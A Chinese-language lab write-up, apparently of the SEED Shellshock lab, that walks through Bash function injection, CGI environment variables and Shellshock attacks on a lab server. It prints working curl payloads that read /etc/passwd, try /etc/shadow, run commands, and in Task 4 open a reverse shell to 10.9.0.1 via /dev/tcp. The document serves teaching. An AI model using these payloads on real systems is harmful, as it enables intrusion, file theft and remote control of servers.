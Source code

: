```yaml
---
hide:
  #- navigation # 显示右
  #- toc #显示左
  - footer
  - feedback
comments: true
---  
```


# Shellshock

## 任务 1：Bash 函数实验

首先我们创建一个环境变量，构造一个形如 bash 函数定义的字符串，并注入一个恶意命令：

![](../../../../../assets/Pasted%20image%2020250705160123.png)

在父进程中，这个环境变量只是一个字符串，并没有被当做是函数定义来处理

如果我们启动含有 shellshock 漏洞的 Bash：

![](../../../../../assets/Pasted%20image%2020250705160454.png)

可以看到，Bash 执行了我们输入的命令，并且定义了函数 foo，如果我们启动一个没有 shellshock 漏洞的 Bash：

![](../../../../../assets/Pasted%20image%2020250705160536.png)

可以看到，Bash 没有执行我们输入的命令，并且没有定义函数 foo
***
## 任务 2：通过环境变量传递数据给 Bash

### 任务 2.A：使用浏览器

在浏览器中打开 URL `http://www.seed-server.com/cgi-bin/getenv.cgi`，浏览器会显示一个长列表，这些都是由 Apache Web 服务器为 `getenv.cgi` 脚本设置的环境变量

![](../../../../../assets/Pasted%20image%2020250705162617.png)

可以看到，请求头和环境变量有很多重合，比如：

- `HTTP_HOST` 对应 `Host`
- `HTTP_USER_AGENT` 对应 `User-Agent`
- `HTTP_ACCEPT` 对应 `Accept`
- `HTTP_ACCEPT_LANGUAGE` 对应 `Accept-Language`
- `HTTP_ACCEPT_ENCODING` 对应 `Accept-Encoding`
- `HTTP_CONNECTION` 对应 `Connection`
- `HTTP_UPGRADE_INSECURE_REQUESTS` 对应 `Upgrade-Insecure-Requests`
- `HTTP_CACHE_CONTROL` 对应 `Cache-Control`
***
### 任务 2.B：使用 curl

首先我们利用 `-v` 选项来打印 HTTP 请求头：

![](../../../../../assets/Pasted%20image%2020250705163102.png)

通过 `-A` 选项来设置 User-Agent：

![](../../../../../assets/Pasted%20image%2020250705163538.png)

可以看到，我们修改了 User-Agent 的值，并且在 CGI 的环境变量中也成功设置了

通过 `-e` 选项来设置 Referer：

![](../../../../../assets/Pasted%20image%2020250705163501.png)

同样可以看到，我们修改了 Referer 的值，并且在 CGI 的环境变量中也成功设置了

通过 `-H` 选项来设置任意的 HTTP 请求头：

![](../../../../../assets/Pasted%20image%2020250705163644.png)

综上所述，通过 `-A`、 `-e` 和 `-H` 选项，我们都可以设置 HTTP 请求头，并且这些请求头会被传递给 CGI 程序作为环境变量
***
## 任务 3：发起 Shellshock 攻击

### 任务 3.A

用 `-A` 选项，利用命令 `curl -A "() { echo hello; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd" http://www.seed-server.com/cgi-bin/vul.cgi` 来读取 `/etc/passwd` 文件：

![](../../../../../assets/Pasted%20image%2020250705165255.png)
***
### 任务 3.B

用 `-e` 选项，利用命令 `curl -e "() { echo hello; }; echo Content-type: text/plain; echo; /bin/id" http://www.seed-server.com/cgi-bin/vul.cgi` 来打印出 ID 信息：

![](../../../../../assets/Pasted%20image%2020250705165138.png)

可以看到输出的为用户 `www-data` 的 ID 信息
***
### 任务 3.C

用 `-H` 选项，利用命令 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/touch /tmp/hacked" http://www.seed-server.com/cgi-bin/vul.cgi` 来创建一个 `/tmp/hacked` 文件，并通过 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/ls -l /tmp" http://www.seed-server.com/cgi-bin/vul.cgi` 来验证：

![](../../../../../assets/Pasted%20image%2020250705164512.png)

可以看到，我们成功创建了一个 `/tmp/hacked` 文件，且拥有者为 `www-data` 用户
***
### 任务 3.D

利用命令 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/rm /tmp/hacked" http://www.seed-server.com/cgi-bin/vul.cgi` 来删除 `/tmp/hacked` 文件，并通过 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/ls -l /tmp" http://www.seed-server.com/cgi-bin/vul.cgi` 来验证：

![](../../../../../assets/Pasted%20image%2020250705164748.png)

可以看到，我们成功删除了 `/tmp/hacked` 文件
***
### 问题解答

- **问题 1：你能否从服务器窃取  `/etc/shadow`  文件的内容？为什么或者为什么不行？**
	- 不能。从任务 3.B 我们得知，CGI 脚本是以用户 `www-data` 的身份运行的，`/etc/shadow` 文件存储着加密后的用户密码，为了安全，它的权限设置通常为 `root` 用户可读写，其他用户（包括 `www-data`）没有任何权限。因此，即使我们能执行命令，也无法读取一个没有权限访问的文件
	- 我们可以通过 `curl -H "User-Agent: () { echo hello; }; echo Content-type: text/plain; echo; /bin/cat /etc/shadow" http://www.seed-server.com/cgi-bin/vul.cgi` 来尝试读取 `/etc/shadow` 文件，不会有任何输出：
	
	![](../../../../../assets/Pasted%20image%2020250705165704.png)
	
- **问题 2：我们能否使用 `QUERY_STRING` 这种方法发起 Shellshock 攻击？**
	- 不能。我们可以尝试使用 `curl http://www.seed-server.com/cgi-bin/getenv.cgi?"(){ echo hello; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd"` 来发起攻击，但是 curl 本身不支持这样的格式：
	
	![](../../../../../assets/Pasted%20image%2020250705165916.png)
***
## 任务 4：通过 Shellshock 攻击获取反向 Shell

在我们的主机上运行监听端口程序：

![](../../../../../assets/Pasted%20image%2020250705170150.png)

同时在另一个进程中，用 `curl -H "User-Agent: () { echo hello; }; /bin/bash -i >/dev/tcp/10.9.0.1/9090 0<&1 2>&1" http://www.seed-server.com/cgi-bin/vul.cgi` 命令发起攻击：

![](../../../../../assets/Pasted%20image%2020250705170509.png)

可以看到，我们成功获取了反向 Shell，并且可以通过这个 Shell 执行任意命令
***
## 任务 5：使用已修补的 Bash

在容器内部修改 `vul.cgi` 文件：

![](../../../../../assets/Pasted%20image%2020250705182055.png)

然后重新进行任务 3 的攻击：

![](../../../../../assets/Pasted%20image%2020250705182238.png)

可以看到，所有的攻击都失败了，全部都输出了 `vul.cgi` 自带的 `Hello World`